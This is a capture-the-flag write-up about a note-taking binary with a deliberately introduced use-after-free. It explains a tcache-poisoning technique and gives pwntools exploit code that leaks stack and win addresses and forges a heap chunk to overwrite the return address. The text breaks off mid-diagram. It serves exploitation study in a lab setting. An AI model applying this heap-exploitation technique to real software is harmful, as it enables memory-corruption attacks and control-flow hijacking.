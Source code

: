 # description

a simple app to create notes, basically i just asked chatGPT to write it and commented the part where it NULLiffy the pointer after freeing it, very basic use after free vulnerbility

![](../media/Screen%20Shot%202024-07-18%20at%205.02.20%20AM.png)

we can create a note, update it, and delete it, the problem is when we delete a note we can still read it and update it (use after free)

# solutions

tldr: we use tcache poisning to inject a malicious tcache chunk that points to the stack in order to override the return address and jump to win function

first let's examine what happens when we create a note:

![](../media/Screen%20Shot%202024-07-18%20at%205.11.35%20AM.png)

since the size passed to malloc is `0x100`, the chunk returned will be in the `tcache` bin, so now we need to create 2 chunks, update the first to point to the malicious one, then reallocating them, then updating the malicious chunk to override the return address.

## creating the malicious chunk

at the start of the program we are given a 4 bytes read and a stack pointer + win address is given to us, this make the creation much easy, also since the free bytes are written in stack and canary is not enabled, we can just update the malicious chunk itself to override the return address.

## the exploit

first we make this class just to facilitate our interaction with the process
```py
 class IO:
     def __init__(self, p):
         self.p = p
 
     def create(self, note):
         self.p.sendlineafter(b"Choose an option: ", b'1', timeout=0.1)
         self.p.sendlineafter(b"Enter note text: ", note, timeout=0.1)
 
     def update(self, index, new):
         self.p.sendlineafter(b"Choose an option: ", b'2', timeout=0.1)
         self.p.sendlineafter(b"): ", str(index).encode(), timeout=0.1)
         self.p.sendlineafter(b"Enter updated note text (up to 255 characters): ", new, timeout=0.1)
 
     def exit(self):
         self.p.sendlineafter(b"Choose an option: ", b'4', timeout=0.1)
 
     def delete(self, index):
         self.p.sendlineafter(b"Choose an option: ", b'3', timeout=0.1)
         self.p.sendlineafter(b"): ", str(index).encode(), timeout=0.1)
```

next we capture the stack address and the win function address then create the malicouse chunk
```py
with process('./a.out') as p:
    io = IO(p)

    tmp = p.recv()
    stack = tmp[tmp.find(b'location'):].split(b' ')[1].replace(b',', b'')[2:]
    stack = int(stack, 16)
    print(f"[*] got stack address {hex(stack)}")
    retaddr = tmp.split(b' ')[-1].replace(b'\n', b'')[2:]
    retaddr = int(retaddr, 16)
    print(f"[*] got ret address: {hex(retaddr)}")
    p.sendline(p64(0x0) + p64(0x111) + p64(mangle(stack+8*2, stack + 0x8*2)) + p64(0x111));
```
the form of the malicouse chunk is as follow
```
+-----------------------------------------+
|  the size of the chunk (0x110)          |
+-----------------------------------------+
|                                         |
+-----------------------------------------+
```